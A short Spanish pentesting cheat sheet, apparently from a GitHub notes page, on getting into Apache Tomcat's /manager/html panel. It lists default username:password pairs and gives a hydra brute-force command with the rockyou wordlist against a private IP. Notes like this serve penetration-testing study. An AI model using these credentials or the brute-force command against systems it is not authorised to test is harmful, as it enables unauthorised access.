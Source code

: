 ## Credenciales por defecto

Probar estas credenciales en el `/manager/html` esta ruta tiene dentro una `/upload` la cual se puede subir archivos pero esta protegido por HTTP auth.


```
admin:admin
tomcat:tomcat
admin:
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

## Fuerza bruta

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f 192.168.1.43 http-get /manager/html -s 8080
```

Hacer una lista con users.txt con admin,tomcat etc.

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat